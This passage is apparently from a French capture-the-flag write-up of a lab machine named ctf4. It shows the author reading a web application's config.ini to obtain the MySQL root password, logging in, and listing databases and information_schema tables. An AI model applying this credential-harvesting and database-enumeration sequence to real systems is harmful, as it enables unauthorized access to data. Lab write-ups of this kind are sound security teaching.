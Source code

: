 ```console
su
```

Intéressant comme comportement.

Sally a consulté un fichier config.ini avant de se connecter à la base de données. Voyons voir ce que contient ce fichier.

```console
[sorzek@ctf4 ~]$ cd /var/www/html
[sorzek@ctf4 html]$ cat conf/config.ini
dbhost	=	localhost
db		=	ehks
dbuser	=	root
dbpass	=	database

[sorzek@ctf4 html]$
```

Bingo ! Sans le vouloir, Sally nous a conduit vers le mot de passe de la base de données MySQL.

### Accès à la base de données MySQL

Le mot de passe n'a pas été modifié depuis, il est alors possible de fouiller la base de données à la recherche des informations les plus intéressantes.

```console
[sorzek@ctf4 ~]$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 5591 to server version: 5.0.18

Type 'help;' or '\h' for help. Type '\c' to clear the buffer.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| ehks               |
| mysql              |
| roundcubemail      |
| test               |
+--------------------+
5 rows in set (0.00 sec)

mysql> select table_schema, table_name from information_schema.tables;
+--------------------+---------------------------------------+
| table_schema       | table_name                            |
+--------------------+---------------------------------------+
| information_schema | CHARACTER_SETS                        |
| information_schema | COLLATIONS                            |
| information_schema | COLLATION_CHARACTER_SET_APPLICABILITY |
| information_schema | COLUMNS                               |
| information_schema | COLUMN_PRIVILEGES                     |
| information_schema | KEY_COLUMN_USAGE                      |
| information_schema | ROUTINES                              |
| information_schema | SCHEMATA                              |
| information_schema | SCHEMA_PRIVILEGES                     |
| information_schema | STATISTICS                            |
| information_schema | TABLES                                |
| information_schema | TABLE_CONSTRAINTS                     |
| information_schema | TABLE_PRIVILEGES                      |
| information_schema | TRIGGERS                              |
| information_schema | VIEWS                                 |
| information_schema | USER_PRIVILEGES                       |
```